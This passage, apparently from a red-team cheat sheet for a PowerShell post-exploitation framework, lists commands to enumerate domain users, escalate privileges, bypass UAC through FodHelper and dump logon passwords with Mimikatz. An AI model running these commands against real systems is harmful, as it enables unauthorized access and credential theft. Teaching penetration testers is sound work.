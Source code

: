 Module Info can be seen with the command:

```bash
# Module information
info
```

It has the following fields of interest

- NeedsAdmin:  Set to True if the module requires elevated privileges
- OpsecSafe:  Set to true if the script avoids leaving behind indicators of compromise like temp files or user accounts
- MinLanguageVersion:  Minimum version of the language required to execute the script.  This is good to consider for clients lower than Windows 7 or Server 2008 R2, which were the first to ship with PowerShell v2
- Background:  True if the module executes in the background without visibility for the victim
- OutputExtension:  Output format of any returned files

After setting options, run the module:

```bash
# Run the module
execute
```

##### Situational Awareness

The primary focus of this category is local client and AD enumeration

```bash
# Enumerate the user accounts on the target
usemodule powershell/situational_awareness/network/powerview/get_user
```

##### Credentials and Privilege Escalation

These are found in the `/privesc/` category.

```bash
# Uses several techniques based on misconfigurations to attempt to escalate privileges.
usemodule powershell/privesc/powerup/allchecks

# Bypasses UAC with a registry hack for FodHelper
usemodule powershell/privesc/bypassuac_fodhelper
set Listener NAME
```

With a high integrity session, you can do password dumps with Mimikatz.   

```bash
# Dump cached logon passwords
usemodule credentials/mimikatz/logonpasswords
```

Any discovered credentials are written to the PSE credential store and can be seen with:

```bash
# Show discovered credentials
creds

# Manually add credentials
creds add DOMAIN USER PASSWORD
```
